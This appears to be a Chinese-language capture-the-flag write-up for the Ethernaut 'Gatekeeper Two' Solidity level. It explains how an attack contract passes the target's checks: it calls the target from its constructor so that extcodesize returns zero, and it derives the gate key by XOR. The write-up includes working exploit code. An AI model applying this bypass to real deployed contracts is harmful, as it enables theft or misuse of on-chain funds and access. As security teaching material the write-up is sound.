 
# level 14: Gatekeeper Two

## 1. 问题

要求你成功调用 `GatekeeperTwo` 合约的 `enter` 函数，函数成功执行不抛异常。也就是可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```


## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateTwo` 

2. `gateTwo` 要求 `extcodesize(caller())` 值为 0. 这个看似要求调用方不是合约地址。但是实际上在合约部署时，合约的 `constructor` 函数内调用其他合约时，因为当前合约没有部署完成，所以 `extcodesize(**)` 会返回 `0`。

> [!NOTE]
> 1. 如果单纯想判断调用方是否是EOA，使用 `tx.origin == msg.sender` 来判断更准确
> 2. 真实情况，绝大部分合约的接口都需要支持合约调用，这个校验不可能部署到所有接口，适用场景有限


### 2.3. `gateThree`

3. 异或操作 `^` 满足 `如果 A^B=C，那么 A^C=A^(A^B)=(A^A)^B=0^B=B`。所以满足 `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max` 的 `_gateeKey` 可以通过计算得到 `uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max`。这个值，我们通过合约自动算好填入。


4. 最终我们的hack合约如下：

```solidity
contract HackGatekeeperTwo {
    constructor(address _gk2) {
        GatekeeperTwo two = GatekeeperTwo(_gk2);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
        two.enter(key);
    }
}
```

> [!TIP]
> 这里我们提供一个测试文件 [Level14.t.sol](../../test/level14/Level14.t.sol)
> 可以在提交之前进行本地调试，调试成功再在测试链上执行

5. 通过remix部署到sepolia上，交易地址 [0xeabf3add56d3e545c1e6469b3af6dd8657f15b20782c964401e8a58f1f1dd08d](https://sepolia.etherscan.io/tx/0xeabf3add56d3e545c1e6469b3af6dd8657f15b20782c964401e8a58f1f1dd08d)

6. 点击 `submit instance`， 提交通过！


| [⬅️ level13 GatekeeperOne](../level13_gatekeeper_one/README.md) | [level15 NaughtCoin ➡️](../level15_naughtcoin/README.md) |
|:------------------------------|--------------------------:|
